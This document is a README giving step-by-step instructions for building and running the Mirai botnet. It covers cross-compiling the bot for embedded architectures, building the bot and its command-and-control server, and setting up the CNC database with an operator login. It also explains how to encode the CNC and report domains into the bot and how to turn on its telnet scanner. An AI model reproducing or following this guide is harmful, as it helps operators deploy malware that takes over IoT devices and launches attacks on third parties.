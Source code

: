 # Mirai Setup Instruction

## Step 1: Update and upgrade, 
use root priviledge to make things easier
```
sudo su
apt-get update -y
apt-get upgrade -y
```

## Step 2: run cross-compile.sh 
navigate into the scripts folder  
This script download and compile xcompiler for you.  
See script for detail.
```
cd scripts
./xcompile.sh
```

## Step 3: export path
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
 
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/Documents/go
```

## Step 3: Install packages:
```	
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords
```

## Step 4: building mirai
Naviage to the mirai folder and do the following command  
the output files will be in the debug folder, with cnc and mirai.dbg
```	
./build.sh debug telnet
```

## Step 5: Database setup 
This is for secure database installation
Set up Table and create user  
(read the last line in db.sql, that's the user that we create to log in to cnc)

```
/usr/bin/mysql_secure_installation
cd scripts
mysql -u root -p
-enter password-
source db.sql;
use mirai;
INSERT INTO users VALUES (NULL, 'root', 'password', 0, 0, 0, 0, -1, 1, 30, '');
quit;
```


## Step 6: Database continuing
edit main.go file located in ../mirai/cnc  
assuming you set the database password as root

e.g.
```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "root"
const DatabaseTable string  = "mirai"
```

## Step 7: to run cnc
1. 
restart mysql: service mysql restart  
navigate to debug foler: cd /mirai/debug  
run the cnc: ./cnc

2. then telnet to access cnc
in windows or ubuntu, use Putty; in Mac, simply telnet in terminal
e.g.
telnet localhost

login credential(set in step 5):  
username: root  
password: root


**setup complete**
***


## Other configuration:
### table.c:
we need to encrypt cnc-domain and report domain and put it in table.c  
Mirai use this to resovle your domain

run:
```
./enc ip 127.0.0.1 or ./enc string www.example.com 
```
If you want to build the release version, remember to copy promtp.txt into the release folder, because admin.go file reads it, if the file not found, will not create connection.

In debug mode, the scanner is turn-off by default, need to edit it in mian.c:158 , so the scanner can run in debug mode.

**Very Important!!**: use sudo to execute!!! 






